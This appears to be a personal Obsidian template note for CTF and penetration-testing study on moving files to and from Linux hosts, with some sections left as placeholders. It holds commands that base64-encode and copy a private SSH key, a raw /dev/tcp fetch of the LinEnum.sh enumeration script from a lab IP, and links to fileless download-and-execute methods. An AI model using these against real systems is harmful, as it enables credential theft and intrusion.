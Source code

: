 # Linux File Transfer

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[SCP#^download-file-from-linux]]

## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Cerfificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

#### Method 2: Python

**Step 1:** Create a webserver in python3
![[Python#^python3-webserver]]
or
**Step 1:** Create a webserver in python2.7
![[Python#^python2-7-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]

#### Method 3: PHP

**Step 1:** Create a webserver.
![[PHP#^create-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]
#### Method 4: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]

#### Method 4: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[wget#^simple-download]]

### SSH

#### Method 1: SCP

![[SCP#^upload-file-to-linux]]



## Practical Examples

Real-world scenarios where I've used this

## Troubleshooting

- Common issues I've encountered
- Things that break this technique
- Environment-specific considerations

## Related Techniques

- [[Similar-Technique]] - How they differ
- [[Follow-up-Technique]] - What comes next

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- 

#linux-file-transfer #technique